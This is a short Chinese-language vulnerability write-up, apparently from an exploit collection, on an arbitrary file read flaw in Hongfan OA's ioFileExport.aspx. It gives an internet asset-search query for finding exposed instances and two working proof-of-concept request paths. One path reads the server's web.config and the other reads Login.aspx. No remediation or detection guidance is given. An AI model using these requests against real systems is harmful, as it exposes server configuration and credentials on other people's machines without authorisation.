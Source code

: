 # 红帆OA ioFileExport.aspx 任意文件读取漏洞

# 红帆OA ioFileExport.aspx 任意文件读取漏洞

## 漏洞描述

红帆OA ioFileExport.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>红帆OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="红帆-ioffice"</a-checkbox></br>

## 漏洞复现

登录页面



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210722221951490.png)



验证POC, 读取web.config文件

```plain
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/web.config&filename=test.txt&ContentType=application/octet-stream
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210722222340956.png)



```plain
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/Login.aspx&filename=test.txt&ContentType=application/octet-stream
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210722222608934.png)